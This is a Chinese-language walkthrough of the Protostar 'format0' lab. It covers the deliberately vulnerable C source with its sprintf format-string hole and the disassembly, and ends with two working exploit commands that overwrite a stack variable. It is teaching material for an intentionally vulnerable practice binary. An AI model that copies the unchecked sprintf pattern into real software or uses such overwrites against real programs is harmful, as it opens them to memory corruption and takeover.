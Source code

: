 # Format

## Format

### About

This level introduces format strings, and how attacker supplied format strings can modify the execution flow of programs.

**Hints**

* This level should be done in less than 10 bytes of input.
* “Exploiting format string vulnerabilities”

This level is at /opt/protostar/bin/format0

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);

  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

`sprintf`指的是**字符串格式化命令**，主要功能是**把格式化的数据写入某个字符串中**。`sprintf` 是个[变参](https://baike.baidu.com/item/变参/9844833)函数。使用`sprintf` 对于写入`buffer`的字符数是**没有限制**的，这就存在了`buffer`溢出的可能性。

用objdump查看一下汇编代码，`target`变量在`ebp-0xc`处，`buffer`在`ebp-0x4c`处，二者相距`0x40`（64个字节），所以通过格式化字符串，**写入64个字符，后面跟上0xdeadbeef**，就能将`target`的值覆盖成`0xdeadbeef`。

```javascript
080483f4 <vuln>:
 80483f4:    55                       push   ebp
 80483f5:    89 e5                    mov    ebp,esp
 80483f7:    83 ec 68                 sub    esp,0x68
 80483fa:    c7 45 f4 00 00 00 00     mov    DWORD PTR [ebp-0xc],0x0
 8048401:    8b 45 08                 mov    eax,DWORD PTR [ebp+0x8]
 8048404:    89 44 24 04              mov    DWORD PTR [esp+0x4],eax
 8048408:    8d 45 b4                 lea    eax,[ebp-0x4c]
 804840b:    89 04 24                 mov    DWORD PTR [esp],eax
 804840e:    e8 ed fe ff ff           call   8048300 <sprintf@plt>
 8048413:    8b 45 f4                 mov    eax,DWORD PTR [ebp-0xc]
 8048416:    3d ef be ad de           cmp    eax,0xdeadbeef
 804841b:    75 0c                    jne    8048429 <vuln+0x35>
 804841d:    c7 04 24 10 85 04 08     mov    DWORD PTR [esp],0x8048510
 8048424:    e8 07 ff ff ff           call   8048330 <puts@plt>
 8048429:    c9                       leave
 804842a:    c3                       ret
```

你可以写入`64个A`或者其他的，或者可以通过`%64c`写入64个字符，后面在加上`deadbeef`。**$\(\)**是用来做**命令替换**的，先执行`$()`里面的命令，得到返回结果进行替换。

### Exp

```bash
user@protostar:/opt/protostar/bin$ ./format0 $(echo -en "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde")
you have hit the target correctly :)

user@protostar:/opt/protostar/bin$ ./format0 $(echo -en "%64c\xef\xbe\xad\xde")
you have hit the target correctly :)
```

